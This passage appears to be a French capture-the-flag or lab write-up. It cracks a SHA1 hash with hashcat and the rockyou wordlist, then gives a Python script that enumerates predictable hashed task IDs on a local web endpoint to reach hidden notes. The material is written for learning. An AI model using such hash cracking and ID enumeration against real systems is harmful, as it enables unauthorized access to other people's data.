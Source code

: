 ```
Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /home/student/Téléchargements/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

356a192b7913b04c54574d18c28d46e6395428ab:1
```

On trouve instantanément que `356a192b7913b04c54574d18c28d46e6395428ab <-> 1`

--- 

Parfait, on peut maintenant essayé de trouver la note n°2 : 

```
echo -n "2" | sha1sum | awk '{print $1"g"}'
da4b9237bacccdf19c0760cab7aec4a8359010b0g
```


![image](https://hackmd.io/_uploads/r1igmAgV6.png)

Pour gagner du temps on va créer un script python et laisser tourner : 

```python
import requests
import hashlib

url = 'http://localhost:4444/nextstep?task='

for i in range(100):
    hashed = hashlib.sha1(str(i).encode('utf-8')).hexdigest() + 'g'
    response = requests.get(url + hashed)
    if 'Not Found' not in response.text:
        print("Task n° "+str(i) + " " + hashed)
```

On trouve : 
```
Task n° 1 356a192b7913b04c54574d18c28d46e6395428abg
Task n° 2 da4b9237bacccdf19c0760cab7aec4a8359010b0g
Task n° 3 77de68daecd823babbb58edb1c8e14d7106e83bbg
Task n° 4 1b6453892473a467d07372d45eb05abc2031647ag
Task n° 91 4cd66dfabbd964f8c6c4414b07cdb45dae692e19g
```

La note **91** semble pertinente. Allons voir : 

![image](https://hackmd.io/_uploads/rkODS0g46.png)

avec le contenu : 
```
Update the version of 'lodash' in my project under /FeedBackEndpointTest
```
